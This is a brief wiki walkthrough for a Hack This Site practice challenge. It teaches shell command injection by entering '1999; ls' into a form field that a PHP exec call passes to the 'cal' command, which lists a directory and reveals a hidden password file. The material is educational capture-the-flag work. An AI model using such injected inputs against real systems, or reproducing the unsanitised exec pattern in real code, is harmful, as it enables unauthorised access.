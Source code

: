 This mission requires basic knowledge of linux shell commands and
operators. The command "ls" lists the contents of a directory, while the
semicolon (";") character ends one command without requiring a newline /
RET.\
You need to end the "cal" command and run ls. The script being run is
similar in effect to

    echo exec("cal ... ".$_POST['cal']);

With a normal input (a 4 digit number) the code is effectively

    echo exec("cal ... 1999");

We want to end the "cal" command and start the "ls" command, so we use a
semicolon, making the input "1999; ls" and the code

    echo exec("cal ... 1999; ls");

This should output the normal calendar information, and at the bottom
there should be something like

    .
    ..
    level7.php
    cal.pl

    index.php
    k1kh31b1n55h.php
    perl5.8.9.core

Go to /basic/7/TheObscureFileYouJustFound.php . There's your password!

[Category:Hack This Site](Category:Hack This Site "wikilink")
